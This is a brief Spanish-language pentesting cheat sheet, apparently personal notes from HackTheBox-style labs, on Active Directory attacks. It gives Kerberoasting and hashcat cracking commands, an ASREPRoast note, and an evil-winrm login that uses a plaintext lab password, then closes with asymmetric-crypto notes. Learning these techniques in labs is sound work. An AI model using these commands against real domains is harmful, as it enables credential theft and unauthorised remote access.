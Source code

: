 ## Kerberoasting

```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

# Este comando regresa si es que encuentra usuarios Kerberoasteables Obtienes el hash de tipo TGS-REP

hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force

```

## Sincronixar reloj

Para hacer el Kerberoasting es importante tener sincronizado el reloj con el DC para ello usa

```
ntpdate IPDC
```

## ASREPRoast

Para cuando tienes usuarios pero no contraseñas si no tienen habilitado el Pre Auth de Kerberos son vulnerables.


## WinRm

Puertos 5985 y 5986 siempre que veas estos puertos abiertos y tengas credenciales vale la pena intentarlo.

```
evil-winrm -u 'svc-printer' -p '1edFg43012!!' -i 10.129.95.241 

```

## Criptografia

Finalmente entendi como funciona la criptografia asimetrica

> ¡Buena observación! Las claves públicas y privadas en criptografía asimétrica pueden ser utilizadas tanto para cifrado como para descifrado, pero de manera complementaria. Aquí te explico cómo funcionan generalmente:

### Uso de Claves Públicas y Privadas

![image](https://github.com/gecr07/Acordeon/assets/63270579/e89d22f8-91ff-49d1-a86f-3779ed7862e7)


Pero la cosa cambia cuando se trata de certificados y firmas digitales

![image](https://github.com/gecr07/Acordeon/assets/63270579/7baa34ac-96b5-4ca4-9cc8-7bee461c8b9d)
